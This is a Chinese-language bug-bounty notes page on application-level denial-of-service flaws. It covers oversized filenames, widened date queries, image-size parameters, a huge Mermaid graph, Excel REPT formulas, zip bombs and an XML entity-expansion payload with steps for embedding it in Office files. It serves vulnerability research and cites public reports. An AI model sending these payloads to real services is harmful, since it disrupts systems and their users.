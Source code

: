 ## 文件名 DoS

上传文件时, 文件名没有长度限制导致 DoS;

某些情况下上传处可能无法直接 DoS, 但是在 API 读取文件名时可能产生 DoS

---

Refrences

- [profile-picture name parameter with large value lead to DoS for other users and programs on the platform](https://hackerone.com/reports/764434)

## 时间查询 DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成 DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

Refrences

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````

```mermaid
graph TD
A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B
```

---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

Refrences

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

Refrences

- [dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)
